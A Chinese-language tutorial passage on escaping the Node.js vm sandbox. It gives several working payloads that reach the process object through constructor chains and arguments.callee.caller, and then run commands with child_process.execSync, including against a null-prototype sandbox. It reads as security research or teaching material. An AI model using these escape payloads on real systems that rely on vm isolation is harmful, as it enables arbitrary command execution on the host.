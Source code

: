 想要RCE，就要先获取`process`对象，再利用`child_process`执行命令。但`process`是挂载在`global`上的，`createContext`得到的上下文是访问不了`global`的。因此我们要想办法将`global`上的`process`引入沙箱中。

```javascript
const vm = require('vm');
const util = require('util');
const res = vm.runInNewContext(`this.constructor.constructor('return process.env')()`);
console.log(res);
```

`this`指向当前传递给`runInNewContext`的对象，获取其构造器(Function)，再获取构造器对象的构造器(即Function的constructor)。

```javascript
const res = vm.runInNewContext(`this.toString.constructor('return process.env')()`);
```

第一个`constructor`换成`toString`也能成功执行。

```javascript
const vm = require('vm');
const script = new vm.Script(`
(() => {
    const res = this.toString.constructor('return process')();
    return res.mainModule.require('child_process').execSync('calc').toString();})()
`);
const sandbox = {
    m: [],
    n: {},
    x: /regexp/
}
const context = new vm.createContext(sandbox);
script.runInContext(context);
```

数字，字符串，布尔这些是primitive类型，他们在传递的过程是将值传递过去而不是引用，而对于数组、对象这些传递的是引用。

因此这里的`this`换成m、n、x亦行。

# 0x04 vm沙箱逃逸下记

### Problem 1

若沙箱对象是null，没有可以引用的对象，此时如何逃逸呢

```javascript
const sandbox = Object.create(null);
```

要用到一个函数中的内置对象的属性`arguments.callee.caller`

```javascript
const vm = require('vm');
const script = `
(() => {
    const a = {};
    a.toString = function () {
        const c = arguments.callee.caller;
        const p = (c.constructor.constructor('return process'))();
        return p.mainModule.require('child_process').execSync('calc');
    }
    return a;
})()`;
const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res);
```

